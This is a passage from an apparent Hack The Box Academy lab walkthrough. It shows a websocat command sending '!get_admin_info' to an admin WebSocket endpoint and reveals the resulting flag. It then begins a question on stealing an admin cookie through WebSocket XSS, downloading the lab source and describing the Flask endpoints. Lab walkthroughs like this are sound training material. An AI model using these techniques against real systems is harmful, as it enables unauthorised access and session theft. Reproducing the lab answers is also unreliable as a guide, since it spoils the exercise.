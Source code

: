 To send data, students can use `echo` and pipe its output to `websocat`:

Code: shell

```shell
echo -n '!get_admin_info' | ./websocat_max.x86_64-unknown-linux-musl -q ws://STMIP:STMPO/admin
```

```shell
┌─[eu-academy-1]─[10.10.14.148]─[htb-ac-413848@htb-nudamvkt2a]─[~]
└──╼ [★]$ echo -n '!get_admin_info' | ./websocat_max.x86_64-unknown-linux-musl -q ws://94.237.59.185:38143/admin

HTB{0c6ef05500b48406eaf3031e18035464}
```

Answer: `HTB{0c6ef05500b48406eaf3031e18035464}`

# Exploiting XSS via WebSockets

## Question 1

### "Obtain the admin user's cookie."

After spawning the target machine, students first need to download [src\_websocket\_xss.zip](https://academy.hackthebox.com/storage/modules/231/src_websocket_xss.zip) and then unzip it:

Code: shell

```shell
wget https://academy.hackthebox.com/storage/modules/231/src_websocket_xss.zip
unzip src_websocket_xss.zip
```

```shell
┌─[eu-academy-1]─[10.10.15.72]─[htb-ac-413848@htb-igsfqtjg7s]─[~]
└──╼ [★]$ wget https://academy.hackthebox.com/storage/modules/231/src_websocket_xss.zip
unzip src_websocket_xss.zip

--2023-05-10 15:00:31--  https://academy.hackthebox.com/storage/modules/231/src_websocket_xss.zip
Resolving academy.hackthebox.com (academy.hackthebox.com)... 104.18.21.126, 104.18.20.126, 2606:4700::6812:157e, ...
Connecting to academy.hackthebox.com (academy.hackthebox.com)|104.18.21.126|:443... connected.
HTTP request sent, awaiting response... 200 OK
<SNIP>
```

Subsequently, students are encouraged to follow along with the module's section and analyze the source code of the web application's front and back end.

The backend is a Flask web app (implemented in `server.py`) that provides two WebSocket endpoints for sending messages, `/userws` (displays messages belonging to users and sends messages of users to admins) and `/adminws` (displays messages belonging to admins and sends messages of admins to users):

Code: python
